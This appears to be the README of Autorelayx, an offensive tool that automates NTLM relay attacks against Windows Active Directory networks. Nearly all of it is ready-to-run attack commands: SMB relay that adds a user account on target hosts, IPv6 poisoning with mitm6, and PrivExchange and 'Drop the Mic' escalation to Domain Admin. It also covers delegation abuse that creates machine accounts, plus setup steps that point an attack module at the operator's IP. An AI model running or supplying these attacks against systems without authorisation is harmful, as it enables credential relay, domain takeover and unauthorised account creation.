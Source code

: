 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump python2 python3
    pip install pipenv
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx

Open the file autorelayx/tools/PrivExchange/httpattack.py. Replace the string "dev.testsegment.local/myattackerurl/" 
with your local IP address (run `ip a` to find your local IP). The modified line should look something like: 
`attacker_url = 'http://192.168.1.30'` where 192.68.1.30 is your actual local IP. 

    cd autorelayx
    cp tools/PrivExchange/httpattack.py tools/impacket/impacket/examples/ntlmrelayx/attack/httpattack.py
    sudo pipenv install
    sudo pipenv shell
    cd tools/impacket
    pip install .

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l <hostlist.txt>```

SMB relay with a custom command and without checking SMB signing.

```python autorelayx.py -tf <targets_file.txt> -c <"net user /add danmcinerney P@ssword123456">```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. The -i <interface> argument is optional and specifies the interface to use for both 
Responder and mitm6. The -d <domain> is optional but suggested to use to limit mitm6's responses.

```python autorelayx.py -l <hostlist.txt> -6 -d <domain for mitm6 to poison> -i <interface>```

## Drop the Mic
Escalate a domain user that you have the password for to Domain Admin. Script will test the exchange server(s) for 
vulnerability to SpoolService RPC abuse for the Drop the Mic attack.

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -sf <exchange_servers.txt>```

```python autorelayx.py --printerbug -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <Exchange IP/hostname>```

## PrivExchange
Escalate a domain user that you have the password for to Domain Admin.

```python autorelayx.py --privexchange -dc <domain controller IP/hostname> -u <DOMAIN/user:password> -s <exchange server IP/hostname>```

## Passwordless PrivExchange
If you don't have a domain user's password you can try performing the passwordless PrivExchange attack

```python autorelayx.py --httpattack -s <exchange server IP/hostname>```

Passwordless PrivExchange attack coupled with mitm6 poisoning on specific domain

```python autorelayx.py --httpattack -s <exchange server IP/hostname> -6 -d <domain for mitm6 to poison>```

## Delegation
Requires no domain credentials. Creates a new machine account, prints the username and password of the new machine 
account, and modifies its delegation rights. Upon success, please use getST.py from impacket to relay the delegation and
 gain access to the machine account.
 
 ```python autorelayx.py --delegate -dc <domain controller IP/hostname>```

## Domain controller delegation
Requires 2 domain controllers, at least one of which must be vulnerable to PrinterBug, and a domain user's credentials. 
Forces the PrinterBug-vulnerable domain controller to authenticate to the attacker which is relayed to the other domain 
controller. A machine account is created and given delegation rights. Upon success, user can use getST.py from impacket 
to impersonate a domain admin on the newly created machine.

 ```python autorelayx.py --delegate-dc -dc <domain controller IP/hostname> -s <PrinterBug-vulnerable domain controller> -u <DOM/user:password>```
